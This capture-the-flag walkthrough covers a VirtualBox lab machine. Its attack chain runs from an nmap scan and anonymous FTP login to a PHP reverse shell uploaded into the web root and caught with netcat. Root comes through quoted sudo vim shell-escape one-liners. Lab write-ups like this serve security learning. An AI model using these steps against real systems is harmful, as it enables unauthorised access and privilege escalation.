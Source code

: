 Beforehand, we set up in our virtual box a NAT network, so our machines can communicate with each other, we assign the ip we desire to the network,and then in each machine check if both are on the same network:
![](imagenes/Pasted%20image%2020240109202337.png)
![](imagenes/Pasted%20image%2020240109213033.png)
![](imagenes/Pasted%20image%2020240109213047.png)



We run an nmap scan on the machine:
```
Nmap 7.94SVN scan initiated Tue Jan  9 20:20:06 2024 as: nmap -oN friendly_scan.txt -vv -sS -sV -sC -T4 -p 0-9999 192.168.25.4
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 192.168.25.4
Host is up, received arp-response (0.00015s latency).
Scanned at 2024-01-09 20:20:06 CST for 14s
Not shown: 9998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.54 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  9 20:20:20 2024 -- 1 IP address (1 host up) scanned in 14.18 seconds
```

ftp port and http port open, we go to the page to see what info we can gather;
![](imagenes/Pasted%20image%2020240109202627.png)

It appears to be the default page of apache2, we run a directory enumeration scan to see if there's something of interest:

![](imagenes/Pasted%20image%2020240109202929.png)

As we can see, with both the small and medium list of dirbuster, we didnt find anything of interest on the web page, we move on to ftp. We try an *anonymous login and see it works*:

![](imagenes/Pasted%20image%2020240109203206.png)
We are in the ftp server, lets check for interesting files.

![](imagenes/Pasted%20image%2020240109204803.png)

We find the index.html file, which is nothing more than the page we saw before, and we can see we have read and write privileges over it, maybe we can upload something? I'll try with the text file of my nmap scan:

![](imagenes/Pasted%20image%2020240109205653.png)
And it uploaded correctly, if we check the page, we should see our scan:

![](imagenes/Pasted%20image%2020240109205725.png)
Now, we are gonna try uploading a php reverse shell, but first, we have to modify it's content, for the listener we are gonna run in our machine:

![](imagenes/Pasted%20image%2020240109210055.png)
We upload the exploit to the ftp server:

![](imagenes/Pasted%20image%2020240109210147.png)

We set up our netcat listener, and then on the webpage, we should go to the url bar and type this `http://192.168.25.4/php-reverse-shell.php` and hit enter, and we should get a shell on our listener:
![](imagenes/Pasted%20image%2020240109210347.png)

We have the user shell, we list the directory contents:

![](imagenes/Pasted%20image%2020240109210430.png)

We go to the home directory to se if we find something there:
We find a posible *username: RiJaba1*
Inside the directory we find the user flag:

![](imagenes/Pasted%20image%2020240109210733.png)

Now, we need to do some privelege escalation, we run a sudo -l

![](imagenes/Pasted%20image%2020240109210836.png)

Interesting, we search gtfo bins for a way to exploit this:
https://gtfobins.github.io/gtfobins/vim/
We find the following for sudo:
#### Sudo
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

A. `sudo vim -c ':!/bin/sh'`
B. This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
	`sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`

C. This requires that `vim` is compiled with Lua support.
`sudo vim -c ':lua os.execute("reset; exec sh")'`

We are going to try with method A

![](imagenes/Pasted%20image%2020240109211405.png)

We run the command, and now we have root privileges, lets check what we can find:

![](imagenes/Pasted%20image%2020240109211436.png)

We go to the root directory and find the flag, we run an ls -al , and we can see we only have read permissions as a user, we change it with chmod 777 and try to discover it with cat:

![](imagenes/Pasted%20image%2020240109211740.png)

Apparently, the flag we found isnt the correct one, we run a `find / -name root.txt` , to see if we can find the correct one:

![](imagenes/Pasted%20image%2020240109212033.png)

And we found the one that's most likely the one we are looking for, which would be the one that's in the apache2 folder, which makes sense, since it's this machines main service(ignore the the one in the home folder, I copied it when I was trying something else), we cat that text file, and we should get the flag string:

![](imagenes/Pasted%20image%2020240109212322.png)

And with this, we are finished with the machine.

![](Pasted%20image%2020240110002233.png)
